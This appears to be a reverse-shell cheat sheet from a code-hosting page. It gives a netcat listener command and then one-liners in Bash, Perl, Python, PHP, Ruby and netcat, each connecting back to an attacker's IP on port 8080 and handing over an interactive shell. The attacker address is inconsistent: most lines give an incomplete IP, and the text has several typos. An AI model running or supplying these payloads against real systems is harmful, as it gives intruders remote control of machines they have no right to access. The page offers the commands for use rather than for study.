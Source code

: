The following examples assums the hacker IP is 10.20.14 and use port 8080 for the connection.
Therefore in all f these cases you need to listen for port 8080 using the foolowing command
`nc -vv -l -p 8080`


BASH
`bash -i >& /dev/tcp/10.20.14.203/8080 0>&1`

PERL
`perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

Python
`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

PHP
`php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'`

Ruby
`ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

Netcat
`nc -e /bin/sh 10.20.14 8080`